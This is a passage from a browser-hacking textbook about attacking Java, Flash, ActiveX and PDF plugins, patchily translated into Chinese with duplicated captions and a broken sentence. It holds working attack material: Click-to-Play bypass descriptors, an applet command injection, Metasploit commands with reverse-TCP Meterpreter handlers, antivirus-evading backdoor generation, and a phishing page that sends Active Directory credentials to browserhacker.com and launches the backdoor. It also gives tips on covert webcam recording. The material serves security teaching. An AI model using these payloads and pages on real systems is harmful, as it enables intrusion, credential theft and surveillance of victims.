-   [Firefox 会通过在地址栏左上方显示红色插件图标提示插件已过期。不够专注的用户仍可能点击黑色 div。图 8-8 与图 8-9 中均可见红色警告图标。]

-   [当此类漏洞被发现时，补丁通常会很快发布，导致定位受影响的浏览器往往是“捡起即丢”。精确的浏览器指纹识别有助于判断目标浏览器是否易受攻击。还可以构建逻辑，决定如何最佳交付插件以最大化激活概率。]

### Java 示例

-   [从 Java 7 更新 11 开始，Oracle 修改了 Click to Play 的实现，使得即使是未签名的 Applet 也会显示。这大幅削弱了利用 Java 漏洞和 SOP 绕过进行攻击的效果。]

-   [Click to Play 的实现中存在若干错误，常常允许在无需用户交互的情况下执行 Java Applet。第一个绕过（编号 10）由 Esteban Guillardoy 在 Java 7 更新 13 中修复，利用了一个“较少人知”的 Applet 属性 `object` 来加载序列化的 Applet。]

-   [如果查看 Java 的 `Plugin2Manager` 类的源码，可以看到 Click to Play 逻辑。具体在 `initAppletAdapter()` 方法中，若使用 `code` 属性实例化 Applet，则会调用 `fireAppletSSVValidation()` 方法：]

```
void initAppletAdapter(AppletExecutionRunnable
  paramAppletExecutionRunnable)
  throws ClassNotFoundException, IllegalAccessException,
  ExitException, JRESelectException, IOException,
  InstantiationException {
 long l = DeployPerfUtil.put(
    0L,"Plugin2Manager.createApplet() - BEGIN");
 /*
  * Get the values of the "code" and "object" applet attributes
  */  
 String str1 = getSerializedObject();
 String str2 = getCode();

 [...snip...]

 if ((str2 != null) && (str1 != null)) {
  System.err.println(amh.getMessage("runloader.err"));
  throw new InstantiationException(
    "Either \"code\" or \"object\"" + 
    " should be specified, but not both.");
 }
 if ((str2 == null) && (str1 == null))
  return;
 if (str2 != null) {
  /*
   * Load applet normally through the "code" attribute. 
   * Fires the CtP pop=up, waiting for user intervention.
   */
   if (fireAppletSSVValidation()) {
    appletSSVRelaunch();
   }
   [...snip...]
 } else {
  if (!this.isSecureVM)
   return;
  // load the Serialized applet through the "object" attribute
  this.adapter.instantiateSerialApplet(localPlugin2ClassLoader, str1);
  this.doInit = false;
  DeployPerfUtil
    .put("Plugin2Manager.createApplet()" + 
      " - post: secureVM .. serialized .. ");
 }

[...snip...] 

 DeployPerfUtil.put(l, "Plugin2Manager.initAppletAdapter() - END");
}
```

-   [当未使用 `code` 属性而使用 `object` 属性时，Java 会直接加载序列化的 Applet，而不会触发 Click to Play。]

-   [要利用此缺陷，可在嵌入标签中使用以下代码：]

```
<embed object="object.ser" 
type="application/x-java-applet;version=1.6">
```

-   [另一个由 Esteban 发现的绕过（编号 12）在 Java 7 更新 21 中被修复。该绕过依赖于通过 Java Network Launching Protocol（JNLP）描述符传递一个隐藏参数。JNLP 可用于启动 Applet，并且可以指定 Applet 运行所需的 Java 版本。]

-   [在分析 Java 的 `PluginMain` 类的 `performSSVValidation()` 方法时，可注意到如下代码：]

```
public static boolean performSSVValidation
        (Plugin2Manager paramPlugin2Manager)
        throws ExitException {

  boolean bool = Boolean.valueOf(paramPlugin2Manager.
                   getParameter("__applet_ssv_validated")).
                      booleanValue();
  if (bool)
    return false;
  LaunchDesc localLaunchDesc = null;
  AppInfo localAppInfo = null;
  
  [...snip...]
}
```

-   [注意到未记录的 `__applet_ssv_validated` 参数，若其值为 `true`，则会跳过所有检查直接返回。正常 Applet 调用会因参数名以 `_` 开头而被排除，但通过 JNLP 描述符调用时并受此限制。]

-   [因此，可以通过在 JNLP 描述符中使用该隐藏参数来绕过 Click to Play 限制。]

-   [下面是一个示例 JNLP 描述符：]

```
<?xml version="1.0" encoding="utf-8"?> 
<jnlp spec="1.0" xmlns:jfx=http://javafx.com
 href="applet_security_bypass.jnlp"> 
  <information> 
    <title>Applet Test JNLP</title> 
    <vendor>Oracle</vendor> 
    <description>Esteban CtP bypass</description> 
    <offline-allowed/> 
  </information> 
  
   <resources> 
        <j2se version="1.7" 
          href="http://java.sun.com/products/autodl/j2se" /> 
        <jar href="malicious.jar" main="true" /> 
  </resources> 
  <applet-desc 
     name="Malicious Applet" 
     main-class="Main" 
     width="1" 
     height="1"> 
     <param name="__applet_ssv_validated" value="true"></param> 
 </applet-desc> 
 <update check="background"/> 
</jnlp>
```

-   [隐藏参数需要在 JNLP 文件的 Applet 描述部分指定：]

```
<param name="__applet_ssv_validated" value="true"></param> 
```

-   [最后一步是从 Web 服务器提供该 JNLP 文件，并在触发 Applet 执行的页面中引用它，示例代码如下：]


<x0.666><y0.2857>Unsigned applet warning with Java 1.7 greater than update 11


end figure

**Figure 8-10:** Unsigned applet warning with Java 1.7 greater than update 11

<x0.666><y0.2857>Output from the JVersion applet


end figure

**Figure 8-11:** The output from the JVersion applet

Although these exploits have already been patched by Oracle, they serve as a valid reminder of the cat-and-mouse game that browser technology plays every day. New features are being deployed by browser and plugin developers, which are then exploited by attackers, which are then patched again. Since the authors started writing this book, Java standard edition version 6 has been patched at least six times, addressing about 100 security issues.14

## Attacking Java

The world and Java have had a tenuous relationship. Java facilitates everything from web conferencing to popular games. Although Java has provided a gateway to application capabilities on the web, it also has a history of insecurity,15 as discussed in Chapter 4. Many security professionals often recommend that Java should be disabled entirely; however, this is not always possible. For example, some online banking portals require the availability of Java.16

You can run Java code in two primary ways: either through standalone Java applications or through web applets. This section concentrates on how applets work, manipulating applets, and finally, exploiting applets remotely to compromise systems.

### Understanding Java Applets

It’s important to understand what Java applets are, how they interact with the browser, and some core functionality differences before you learn to manipulate Java. Applets are Java code specifically designed to run within a web page. Java has a security model around the applets that tries to prevent them from calling malicious code. This model, also known as a sandbox, includes additional security constraints.17

Actions like accessing the file system or executing operating system commands are blocked by default. The Java security model requires code to be trusted or permission to be given before accessing functionality that has security implications. Much of the security research around Java revolves around bypassing security measures. That is, to break out of the sandbox and gain access to the underlying file system, the ability to execute additional code, and the ability to break out of the browser itself.

One aspect of Java code that is useful to understand is the relationship between Java code and the resulting compiled class file. Java code is compiled into bytecode that is then processed by the Java Virtual Machine (JVM). The JVM processes the bytecode and then executes it. Applications can convert bytecode back into representative Java code as well, usually called decompilers, which you will learn more about later in the chapter.

What an applet is allowed to do is controlled by its permissions. Primarily these permissions dictate how the applet interacts with the system through the sandbox. A core difference between a signed applet and an unsigned applet is that a signed applet can execute code outside of the sandbox.

When dealing with signed applets, Java verifies that the signature is valid, and if it is unknown, prompts the user to verify that the user accepts the applet. You have seen this before with the signed Java applet attack from Chapter 5.

Unsigned applets, on the other hand, are quarantined within the sandbox. For exploitation purposes, this is not ideal, but for user security, it’s great. For an unsigned applet to perform any OS or network-level operations, it first has to break out of the sandbox. For this reason, most exploits for unsigned applets that lead to additional privileges also require a sandbox bypass. The sandbox bypass allows code to execute functions outside the sandbox.

Jailbreak attacks are discovered periodically, and usually patched with priority, due to how damaging they can be because of their ability to break out of the security model. Because these weaknesses are a moving target, there won’t be coverage of jailbreak attacks in general; only attacks against specific versions of Java.

### Detecting Java

Before you can execute any Java attacks, you could choose to identify whether or not Java is running. Surprisingly, this can be challenging on modern browsers. The most effective way to fingerprint a browser for the presence of Java is to convince the user to run a Java applet that will execute the query and send you the result.

Once an applet is running, Java can access version strings from inside the applet itself. An unsigned applet has enough permission to achieve this as well. Your goal is to get the user to execute an applet, catch the result, and then send the result back to you for further targeting. With newer versions of Java, starting from Java 1.7 update 11, this requires the user to explicitly allow unsigned applet execution.

The following code snippet uses the System.getProperty method to retrieve the Java version and vendor. This is called in the execute function and is returned as a string:

```
import java.applet.*;
import java.awt.*;
public class JVersion extends Applet{ 
  public JVersion() {
    super();
    return;
  }

public static String execute() {
  return (" Java Version: " +
     System.getProperty("java.version")+
     " by "+System.getProperty("java.vendor"));
  }
} 
```

The following HTML and JavaScript snippet executes the preceding Java code to create an object in the page and then uses JavaScript to call the execute method of that object. This is written to the screen using the document.write method:

```
<object id='JVersion' name='JVersion'>
  <param name='code' value='JVersion.class' />
  <param name='codebase' value='null' />
  <param name='archive' 
  value='http://browserhacker.com/JVersion.jar' />
</object>
<script>
   document.write(document.JVersion.execute());
</script>
```
 start figure

**Figure 8-10:** Unsigned applet warning with Java 1.7 greater than update 11


end figure

**Figure 8-11:** The output from the JVersion applet


end figure

Regardless of these detection methods, as of Java version 1.7 update 11, it’s recommended that the best way to execute malicious Java applets is to simply run them without prior Java detection. This is due to the browser asking the user for permission before running the applet, regardless of whether it’s Java detection code or an unsigned malicious applet.

### Reversing Java Applets

When you encounter a trusted Java applet, your goals are to reverse the applet’s code, understand its inner workings, and then look for potential flaws. Part of the challenge is that the code itself can’t be modified directly. If the applet takes arguments from a web page, it may be possible to determine weaknesses in the applet itself that lead to exploitation. In this scenario, you are effectively exploiting a weakness in a trusted applet in order to exploit a host.


为了找到这些弱点，你必须检查 `applet` 本身。为此，你首先需要找到一个 `Java` 反编译工具，例如 `JD-GUI`。反编译工具会将 `Java` 字节码转换回可浏览的代码。使用 `JD-GUI18` 应用，你可以拆解 `Java` Applet 以查找弱点，然后确定如何修改网页以利用这些弱点。你可能会偶尔遇到带有一定混淆的 `Java` Applet 代码，在这种情况下可能需要花费一些时间对代码进行去混淆。

为了演示这一点，下面的示例展示了如何通过反向工程一个伪造的 `Java` Applet，从而进一步威胁底层浏览器和操作系统。在此情形下，你的目标是利用正常的 Applet 行为来执行任意操作系统命令。

通过分析 `HTML` 和 `JavaScript`，你发现有多个参数直接传递给 Applet。Applet 还似乎暴露了一个 `execute()` 方法：

```
<object id='signedAppletCmdExec' 
  classid='clsid:8AD9C840-044E-11D1-B3E9-00805F499D93' 
  name='signedAppletCmdExec'>
  <param name='code' value='signedAppletCmdExec.class' />
  <param name='codebase' value='null' />
  <param name='archive' 
  value='http://browserhacker.com/signedAppletCmdExec.jar' />
  <param name='debug' value='true' />
  <param name='dir' value='c:/' />
</object>
```

这段示例代码指示浏览器执行 `signedAppletCmdExec` 类，并从 `signedAppletCmdExec.jar` 文件中加载。它将 `debug` 参数设为 `true`，`dir` 设为 `c:/`。当浏览器运行代码时，参数会传递给 `Java`，`debug` 与 `dir` 的值在 Applet 中可用。要最终运行 Applet，还需要下面的 `JavaScript` 代码：

```
<script>
try {
    output = document.signedAppletCmdExec.execute();
    console.log("output: " + output);
    return;
}catch (e) {
    console.log("timeout");
      return;
}
</script>
```

这段 `JavaScript` 代码创建了一个函数，用于访问 Applet 并调用 Applet 内部的 `execute` 方法。它还会把 Applet 输出的信息打印到浏览器控制台。运行此代码后，你会在 Figure 8-12 中看到输出。

 start figure 

**Figure 8-12:** `cmd.exe` 窗口显示 `C:\\` 提示符


 end figure 

掌握了这段代码的行为后，似乎可以利用脆弱的 `Java` Applet 执行任意操作系统命令。为了确定具体方法，你需要了解代码在 `Java` 内部是如何被调用的。这正是需要拆解 `Java` 代码、调查 `cmd.exe` 是如何被调用的地方。

首先，你需要从 `.jar` 文件中提取 `.class` 文件。下载 `.jar` 文件并保存到临时目录。要从 `.jar` 文件中提取内容，输入以下命令。记住，`.jar` 文件本质上是包含所有必要的 `Java` 类文件和相关内容的 `.zip` 文件：

```
$ jar xvf signedAppletCmdExec.jar 
 inflated: META-INF/MANIFEST.MF
 inflated: META-INF/MYKEY.SF
 inflated: META-INF/MYKEY.DSA
  created: META-INF/
 inflated: signedAppletCmdExec.class
 inflated: RelaxedSecurityManager.class
```

你会看到除了 META-INF 相关的签名信息外，还提取出了两个类文件，它们包含已编译的 Applet 代码字节码。接下来，启动 `JD-GUI` 应用并双击 `signedAppletCmdExec.class`。加载后，你应该看到类似 Figure 8-13 的内容。

 start figure 

**Figure 8-13:** `JD-GUI` 显示提取的源码


 end figure 

代码片段中有两个重要之处。第一，Applet 正在覆盖默认的安全管理器，以降低执行命令所需的权限。如果不显式授予 Applet 权限，或像本例那样授予全部权限，Applet 会抛出安全异常并拒绝执行命令。第二，`str2` 变量用于设置要执行的命令，并结合传入的 `dir` 参数。

这些信息告诉你，如何执行额外的操作系统命令。要利用这一发现，你需要提供额外的命令，让 `cmd.exe` 执行它们。由于原始命令不会直接显示在屏幕上，追加的命令是透明的。为了验证，可以将初始 HTML 代码修改为：

```
<object id='signedAppletCmdExec'
  classid='clsid:8AD9C840-044E-11D1-B3E9-00805F499D93'
  name='signedAppletCmdExec'>
  <param name='code' value='signedAppletCmdExec.class' />
  <param name='codebase' value='null' />
  <param name='archive'
  value='http://browserhacker.com/signedAppletCmdExec.jar' />
  <param name='debug' value='true' />
<param name='dir' value='c:/ && notepad.exe' />
<object id=’signedAppletCmdExec’>
```

高亮的修改导致 `cmd.exe` 在 `Java` Applet 执行时切换到 `c:/` 目录，然后启动 `notepad.exe`。重新加载攻击页面后，你应该看到类似 Figure 8-14 的输出。`cmd.exe` 标题会改变，显示正在执行 `notepad.exe`。但如果执行速度很快，用户可能根本注意不到短暂的变化。

这为执行 Metasploit Meterpreter 负载提供了很好的机会，能够快速迁移到其他进程。其他攻击手段包括添加本地用户，或在拥有适当权限的情况下，甚至提升到域管理员（如果目标在 Windows 域中拥有提升权限）。

 start figure 

**Figure 8-14:** 受信任 Applet 启动 `cmd.exe` 并 `notepad.exe`


 end figure 

这一情形展示了如何通过脆弱的 `Java` Applet 来利用操作系统命令执行。然而，思考更高级的 `Java` Applet 时，情况会不同。

无论目标是下载器、安装程序，还是其他具有类似功能的 Applet，它们几乎总是被用户视为受信任的。如果你修改这些受信任应用的选项并将其发送给目标，如何利用这些技术？要做到这一点，你需要拿出 `Java` 反编译工具，进一步深入挖掘。

### 绕过 Java 沙箱

偶尔会发现 `Java` 沙箱漏洞，使得可以绕过沙箱执行恶意代码 19。不过并非每个 `Java` 版本都易受影响；挑战之一是指纹识别具体的 `Java` 版本，以判断是否存在此类漏洞。没有这方面的信息，绕过沙箱将会很困难。

本章早前的指纹识别代码可以帮助你确定运行的 `Java` 版本。有了这份信息，你就能判断该版本是否存在沙箱绕过的漏洞。由于 `Java` 定期更新，导致利用手段也在变化，书中列出具体易受影响的版本没有意义。快速在网络上搜索你所使用的版本，是发现潜在绕过方法的最有效途径。

还需考虑前面两个 `Java` 代码示例。每个示例都让你能够利用已签名的 Applet 将 `JavaScript` 与 `Java` Applet 关联，这是在不使用漏洞的情况下进行操作系统操作的唯一途径。正如你所见，这可能会触发警报，还需要配合社交工程或其他攻击手段才能使其成为有效的攻击。


-   一个被沙箱绕过的著名漏洞是 `CVE-2013-0422`，它针对的是 Java 1.7 更新 9 到 10 之间的版本。与许多 Java 漏洞一样，这个漏洞最初是在野外发现的，随后被去混淆、分析，最终被修补。去混淆后的代码首次公开发布于 Security Obscurity。20 The applet 代码可从 [`https://browserhacker.com`](https://browserhacker.com) 获得。

    这个漏洞利用的依据是 Java Reflection API。21 Reflection 是在运行时检查和修改对象行为的能力。在此特定情况下，通过使用 Reflection，可以获取 `com.sun.jmx.mbeanserver.MBeanInstantiator` 实例，然后调用 `findClass()` 方法。有了这种可能性，你就可以加载额外的类，并在实践中调用你自定义的类，该类会调用常规的 `Runtime.getRuntime().exec()` 方法来执行操作系统命令。

    由于沙箱被绕过，利用该漏洞意味着可以从未签名的 Applet 执行操作系统命令。当时，该漏洞的影响很大，因为如前所述，Oracle 仅在 1.7 更新 11 版本中添加了 Click to Play 功能。

### 利用 Java

下面的示例针对 Java 1.7 更新 17 或更早版本，利用 `CVE-2013-242322`（由 Jeroen Frijters 发现）。Metasploit 的模块名称为 `java_jre17_driver_manager`。

记住第二章中提到的第二个 Click to Play 绕过，由 Immunity 发现，并在本章前文中讨论过？下面你就能看到它在这类漏洞中的实际应用，因为你将针对 Java 1.7 更新 11 之后的版本进行攻击。

首先，你需要在 Metasploit 中配置该漏洞：

```
msf > use exploit/multi/browser/java_jre17_driver_manager
msf exploit(java_jre17_driver_manager) > set PAYLOAD 
   java/meterpreter/reverse_tcp
msf exploit(java_jre17_driver_manager) > set SRVHOST 172.16.37.1
msf exploit(java_jre17_driver_manager) > set LHOST 172.16.37.1
msf exploit(java_jre17_driver_manager) > exploit
[*] Exploit running across <ref>


Flash 维护其独立的 Cookie 存储，允许存储浏览器无法直接删除的 Cookie。Flash 还可以使用本地存储缓存文件，并可访问网络摄像头和麦克风。Flash 还具备向远程目标发送和接收数据的能力。

了解 Flash 是什么，以及如何进行指纹识别并加以利用，是为您的攻击工具包添加技能的有价值技能。该插件的普及性以及可以用于滥用麦克风和网络摄像头的能力，使其成为一个有价值的攻击目标。

如前所述，Flash 在交互式在线游戏中被大量使用。像 Farmville 等流行的 Facebook 游戏依赖于 Flash。虽然许多在线游戏已拥抱 Flash，但趋势似乎在转变，部分原因是 Apple 不支持 iPhone 的 Flash。这一变化促使开发者探索其他方法，构建跨平台支持的交互式应用和游戏。

### 理解 Shared Objects

Shared Objects 是 ActionScript 的构造，允许本地和远程从数据存储中检索数据。Shared Objects 最常见的用途是用于 Flash Cookie。

用户不容易管理 Shared Objects。要管理存储的内容，需要访问 Website Storage Panel。23 Figure 8-16 展示了 Storage Panel 以及可查看的信息。该面板允许您设置可以在计算机上存储的数据量，并允许您删除现有数据。

与浏览器会话 Cookie 不同，Shared Objects 数据不会定期删除，这也是 Flash Cookie 如此诱人的原因。除了基本用户信息外，这些数据存储可能包含访问远程应用程序的凭据或其他敏感数据。

 start figure 

**Figure 8-16:** The Website Storage Settings Panel of the Flash plugin


 end figure 

Shared Objects 的信息也存储在文件系统中。要在 Mac 上查看您的信息，可以前往主目录的 Library/Preferences/Macromedia/Flash Player/#SharedObjects/ 文件夹。在 Windows，文件位于 C:\\Documents and Settings\\\[username\]\\Application Data\\Macromedia\\Flash Player。检查这些文件时，您可能会发现身份验证数据、会修改程序功能的信息，或其他极好的线索。因此，在系统被入侵后，这些文件不是查找进一步利用信息的糟糕位置。

### ActionScript

ActionScript 是开源脚本语言，编译为字节码，并被 Adobe Flash 和 Apache Flex 利用。字节码在 ActionScript Virtual Machine (AVM) 中执行，该虚拟机提供与 Java 类似的沙箱环境。Flash 主要设计用于提供网页内容，因此它通常与操作系统的交互较少。ActionScript 能够发送网络和 web 请求，访问特定外设，并流式传输媒体给用户。

尽管 ActionScript 编译的字节码不可读，像 SWFScan24 这样的工具可以将字节码还原为 ActionScript。这些工具的用途与反编译 Java 应用程序相同。这些应用程序通常包含硬编码凭据、未在页面上链接的 URL，以及其他有趣的内容。利用这些数据可能使您在通过中间人攻击更改内容时，能够操控受害者看到的内容。

### 利用网络摄像头和麦克风

能够同时利用网络摄像头和麦克风，使得在 Flash 中进行实验变得非常有趣。默认情况下，网络摄像头和麦克风的安全设置均为拒绝访问。当您右键单击 Flash 插件并选择 Settings 时，您可以查看当前设置。Figure 8-17 展示了允许或拒绝使用麦克风或摄像头的设置。

 start figure 

**Figure 8-17:** Adobe Flash 相机和麦克风设置


 end figure 

如果您能骗人启用此功能，Flash 插件可以访问摄像头和麦克风。此外，如果您骗人勾选 Remember 选项，Flash 将在当前来源的上下文中记住该设置，以供将来所有 Flash 插件使用。此设置并非特定于 Flash 插件，因此同一站点上的任何其他 Flash 插件都将被允许。

在社交工程攻击中利用此功能很有用。例如，如果您骗人执行一个 Flash 游戏，该游戏会从网络摄像头拍照并为其添加一个搞笑的帽子，您可以利用此功能进行未来的入侵。一旦受害者允许某个来源访问摄像头和麦克风，您可以发送一个隐藏的 1x1 像素 Flash 应用，仅记录其麦克风和摄像头，如第 5 章所示。

用于访问摄像头的 ActionScript 类在参考手册的 Camera 类中找到。您可以使用 Camera 类来录制视频、获取视频统计信息、并设置摄像头的帧率 (FPS)。通过将 FPS 设置为 0，可以拍摄单张照片。要确定摄像头是否已启用，可以查询 Camera 类的 name 属性，以指示是否存在摄像头。如果 name 属性为空，则可能没有摄像头可用。

Microphone API 功能类似。它也有对应的 ActionScript 参考手册。麦克风能够录制音频、确定检测到的声音量，并禁用回音抑制等任务。要通过 Internet 发送音频数据，需使用 Microphone 类与 NetStream 类配合使用。

一种常见的方法（尽管已被修补）是通过点击劫持攻击骗人更改这些 Flash 隐私设置。如第 4 章讨论，概念是利用透明的 IFrames 和 DIV 元素向受害者展示 UI 元素。当这些元素被点击时，实际上是修改 Flash 隐私设置，从而赋予来源提升权限。

### Fuzzing Flash

正如许多技术一样，Flash 也可以被模糊测试以寻找崩溃。当然，安全研究人员过去在多个场合进行了此类工作以发现各种可利用的条件。

Google Security 团队 27 在 2011 年进行了一项 notable 发现可利用漏洞的努力。他们大规模对 Flash 进行了模糊测试，分析了庞大的 Flash 文件集合。

此调查识别出约 400 个唯一崩溃签名，其中 106 个被标记为安全漏洞。Google Security 团队首先收集了约 20TB 的 SWF 文件。从中，他们创建了一个包含 20,000 个唯一文件的最小集合。这些文件被变异并输入 Flash Player，同时监控崩溃。

 start feature 

* * *

**Radamsa** 如果您想了解更多关于模糊测试的知识，应该尝试 Radamsa，这是来自芬兰奥卢大学的开源黑盒变异器。您可以在 [`www.ee.oulu.fi/research/ouspg/Radamsa.`](https://www.ee.oulu.fi/research/ouspg/Radamsa.) 了解更多信息。

* * *

 end feature 

## 攻击 ActiveX 控件

ActiveX 是 Microsoft 为浏览器开发的插件架构，用于让开发者在浏览器中添加额外功能。ActiveX 控件可以从创建动画到在系统上安装软件。由于它们能够在浏览器和操作系统之间建立桥梁，它们也是主要的攻击目标。许多站点需要 ActiveX 才能正常工作。


一些 ActiveX 控件是熟悉的，例如 Adobe Flash、Java 或 Windows Update。一些控件提供站点特定的功能，如身份验证和证书管理。撰写时，中国银行网站<sup>28</sup> 是一个典型例子。通过了解这些控件的工作原理以及如何利用它们，你可以利用其中的漏洞来指纹识别浏览器、操作执行并获得系统访问。

尽管 ActiveX 是为 Internet Explorer 设计的，但有插件可用于 Chrome<sup>29</sup> 和 Firefox<sup>30</sup>，允许 ActiveX 在不打开 Internet Explorer 窗口的情况下执行。这些插件的主要限制是它们仍然必须在 Windows 环境下运行，因为 ActiveX 是编译代码。

### 利用 ActiveX

利用 ActiveX 并不总是直接。有时需要组合两种不同的攻击才能获取更受保护的资源访问权限。下面的示例展示了如何同时利用企业共享的访问权限以及已安装的插件的知识来进行利用。

被调查的模块是 Mitsubishi MC-WorX<sup>31</sup> ActiveX 插件。该插件是 Mitsubishi MC-WorX SCADA 套件的一部分，用于为制造系统提供可视化支持。你要利用的插件设计为充当程序本身的启动器。Blake<sup>32</sup> 发现的缺陷允许指定任意文件名进行启动。问题是，利用仅支持本地文件名；UNC 路径<sup>33</sup> 不被允许；然而，如果 UNC 路径已映射为驱动器字母，则这些路径可用。这在企业环境中很常见，例如部门文件共享和其他企业资源。在这些情况下，很可能存在某个权限较低的用户，你可能希望针对该用户进行攻击，并且该用户已有对企业共享的访问权限。

在本例中，你需要创建一个 Metasploit payload、设置一个 handler，并创建一个你希望受害者访问的示例页面。你可以通过以下方式诱导受害者访问该页面：在合法页面中注入代码（使用 Ettercap），修改内部网络的共享文件，或将其作为钓鱼攻击的一部分进行分发。

前提是插件已经在目标系统上安装。Chris Gates 曾展示一些技巧<sup>34</sup>，通过假装该插件是查看内容所必需的，骗取用户先安装该漏洞插件。无论目标如何安装软件，假设目标已经安装了插件。

 start feature 

* * *

**Metasploit Utilities** 你可以以多种方式与 Metasploit 框架交互。第 6 章之前已经通过交互控制台（msfconsole）演示了 Metasploit。其他重要的 Metasploit 命令包括：

*   Msfpayload——用于生成 Metasploit payloads 的命令行实用工具。

*   Msfencode——用于编码 shellcode 的命令行实用工具。通常 msfpayload 与 msfencode 会一起使用，以输出特定 payload 并对其进行编码。

*   Msfvenom——将 msfpayload 与 msfencode 合并为单一命令。

*   Msfgui——Metasploit 的交互式图形用户界面。

* * *

 end feature 

下一步是创建并上传一个 Meterpreter payload，然后由受害者浏览并执行。假设你的 IP 地址是 192.168.1.132。你需要向 msfpayload 指定 payload、端口和 IP 地址来生成 Meterpreter 后门。

此外，你可能还想使用 msfencode 进一步编码二进制文件，以降低被防病毒软件检测的概率。该技术在不同阶段表现出有效或无效的情况。如果 payload 被防病毒检测到，建议使用诸如 Hyperion<sup>35</sup> 之类的打包工具，或更优的 Veil<sup>36</sup>。下面的 shell 命令将 msfpayload 与 msfencode 组合，生成二进制文件：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.132\
  LPORT=8675 R | msfencode -c 3 -t exe > backdoor.exe
```

此命令创建一个反向 Meterpreter payload，经过三次编码，并将可执行文件保存为 backdoor.exe。随后，你需要相应的 Metasploit handler 来让 payload 与你建立连接。为此，你需要启动 Metasploit 的 msfconsole，并使用以下选项启动 multi/handler：

```
msf> use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.132
LHOST => 192.168.1.132
msf exploit(handler) > set LPORT 8675
LPORT => 8675
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j 
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.1.132:8675 
[*] Starting the payload handler...
```

可以看到此时 handler 正在监听，由于使用了 \-j 选项，它在后台运行并可接受多个受害者的回连。这在可能有多个受害者同时连接时非常有用。

下一步是构建一个足以诱使用户点击恶意链接的页面。第 5 章介绍了多种诱导受害者在浏览器中执行恶意代码的技术，例如利用 UI 预期或假装软件更新。

首先，创建一个看起来像聊天程序的 HTML 页面。该页面将包含两个特性：一个鼓励登录 Active Directory 的登录框，以及一个登录按钮。插件生成的按钮文字为 “Login Client”，因此你可以在同一控件上实现凭据捕获和利用的双重目的：

```
<html>
<body>
<script>
function submitData()
{
   var x = document.getElementById("sploit");
   var url = "http://browserhacker.com/capture.rb?un=" + 
        x.elements[0].value + "&pw=" + x.elements[1].value;
   document.getElementById('t1').background=url;
}
</script>

<div align=center>
<form id="sploit" >
<table id='t1' border=0 background="">
<tr><th colspan=2>BrowserVictim.com Chat System<BR>
Please Log in with your ActiveDirectory Credentials</th></tr>
<tr><th>Username:</th><td><input type=text name="user"></td></tr>
<tr><th>Password:</th><td><input type=password name="pass"
        onBlur="submitData()"></th></tr>
<tr><th colspan=2>
<object classid='clsid:C28A127E-4A85-11D3-A5FF-00A0249E352D'
 id='target'>
</object>
</tr></td>
</form>
<BR>
</div>

<script language='vbscript'>
document.getElementById("target").fileName = "Z:\\backdoor.exe"
</script>
</body>
</html>
```

代码使用 onBlur 方法监听密码字段的变化，并在变化时调用 submitData 函数。该函数尝试将包含登录信息的表格背景设置为图片，实际上是向 browserhacker.com 发送 GET 请求，将用户名和密码作为参数。当用户点击登录按钮时，会启动后门。浏览该页面时应呈现如 Figure 8-18 所示。

 start figure 

**Figure 8-18:** 伪装成聊天程序的登录页面


 end figure 

点击 “Login Client” 按钮后，ActiveX 控件尝试调用 backdoor.exe。为提高成功率，你可以将其命名为 “chatclient.exe”，并根据伪装网页的名称进行调整。 Figure 8-19 展示了当文件未签名时，用户会收到的弹窗警告。

 start figure 

**Figure 8-19:** 未签名应用程序的弹窗


 end figure 


一旦用户点击“确定”，程序会向你的 `Metasploit` 监听器发起请求。`Metasploit` 会创建一个新会话，并允许你与新的 `Meterpreter` 会话进行交互：

```
msf exploit(handler) > [*] Sending stage (752128 bytes) to 192.168.1.198
[*] Meterpreter session 7 opened (192.168.1.132:8675 ->
  192.168.1.198:50407) at 2013-09-17 01:09:01 -0400

msf exploit(handler) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > sysinfo
Computer        : WIN-758UJIVA5C3
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
meterpreter > 
```

尽管此攻击稍微复杂一些，但也可以像许多其他插件一样直接攻击 ActiveX。插件中的漏洞时有发现，因此只需找到适合目标平台的合适 exploit 即可。

### 攻击 PDF 阅读器

像 `Acrobat` 和 `Foxit` 这样的 PDF 阅读器软件是恶意软件作者的热门目标。主要原因是 PDF 文档拥有大量特性，其中许多提供了丰富的攻击面。例如，PDF 文档可以包含 `JavaScript`、二进制流和图像。将这些元素组合在一起，就可以在页面加载时对代码进行混淆并执行该代码。

这种组合导致 PDF 阅读器中漏洞频繁出现，其中 `Adobe Acrobat` 是使用和被利用最多的。在下面的章节中，你将学习如何检测 PDF 阅读器、如何利用它们获取进一步权限，以及如何利用它们获取 shell 访问。

类似于之前对 Flash 文件的模糊测试，Google 也成功收集了大量 PDF 文件，并用于模糊测试和漏洞查找。基于这些数据，`Mateusz Jurczyk` 和 `Gynvael Coldwind` 在 Chrome 的 PDF 阅读器中识别出 50 个从低到高严重程度的漏洞。同样，利用该数据集对 `Adobe` 的 PDF 阅读器进行模糊测试也发现了至少 25 个额外的关键漏洞，其中许多随后已被修复。37

#### 使用 PDF 中的 JavaScript

PDF 文件中的 `JavaScript` 是许多 PDF 攻击的来源。PDF 文件可以包含拥有对整个文档访问权限的 `JavaScript`。这类似于浏览器的 DOM，即 PDF 文档包含对象和方法。这些方法可以让 `JavaScript` 事件在 PDF 元素上触发。该功能最初设计用于支持交互式表单和文档，提供数据验证和增强表单。

`JavaScript` 是一项即使 `Adobe` 也建议关闭的功能，以防止某些攻击。38 因此，许多安全专业人员建议默认在 PDF 阅读器中禁用 `JavaScript`，以防止常见的许多攻击。

##### 通用 XSS

曾经出现过 `JavaScript` 在 PDF 文件中导致可利用行为的情况。例如，这发生在 `Acrobat Reader` 的通用 XSS（UXSS）漏洞中。`Stefano Di Paola` 和 `Giorgio Fedon` 在 23C3 会议上分享了该发现的研究成果。39 UXSS 漏洞允许用户将参数传递给 PDF，然后这些参数会被文档内的 `JavaScript` 处理。

该漏洞利用了旧版 `Acrobat` 在 `Firefox` 中解析 URL 中的变量。诸如 `#FDF` 和 `#XML` 等值被处理，随后被处理。因此，通过传入类似 `http://browserhacker.com/test.pdf#FDF=javascript:alert('xss')` 的值，`JavaScript` 将被渲染，弹出提示框。

